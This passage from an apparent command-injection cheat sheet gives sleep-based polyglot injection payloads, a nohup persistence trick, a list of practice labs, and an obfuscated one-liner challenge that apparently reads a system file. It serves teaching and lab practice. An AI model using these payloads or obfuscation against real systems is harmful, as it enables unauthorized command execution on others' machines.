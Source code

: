   ```powershell
  # Context inside commands with single and double quote:
  echo 1/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
  echo "YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/"
  echo 'YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/'
  ```


## Tricks

### Backgrounding Long Running Commands

In some instances, you might have a long running command that gets killed by the process injecting it timing out.
Using `nohup`, you can keep the process running after the parent process exits.

```bash
nohup sleep 120 > /dev/null &
```

### Remove Arguments After The Injection

In Unix-like command-line interfaces, the `--` symbol is used to signify the end of command options. After `--`, all arguments are treated as filenames and arguments, and not as options.


## Labs

* [PortSwigger - OS command injection, simple case](https://portswigger.net/web-security/os-command-injection/lab-simple)
* [PortSwigger - Blind OS command injection with time delays](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)
* [PortSwigger - Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)
* [PortSwigger - Blind OS command injection with out-of-band interaction](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)
* [PortSwigger - Blind OS command injection with out-of-band data exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)
* [Root Me - PHP - Command injection](https://www.root-me.org/en/Challenges/Web-Server/PHP-Command-injection)
* [Root Me - Command injection - Filter bypass](https://www.root-me.org/en/Challenges/Web-Server/Command-injection-Filter-bypass)
* [Root Me - PHP - assert()](https://www.root-me.org/en/Challenges/Web-Server/PHP-assert)
* [Root Me - PHP - preg_replace()](https://www.root-me.org/en/Challenges/Web-Server/PHP-preg_replace)

### Challenge

Challenge based on the previous tricks, what does the following command do:

```powershell
g="/e"\h"hh"/hm"t"c/\i"sh"hh/hmsu\e;tac$@<${g//hh??hm/}
```
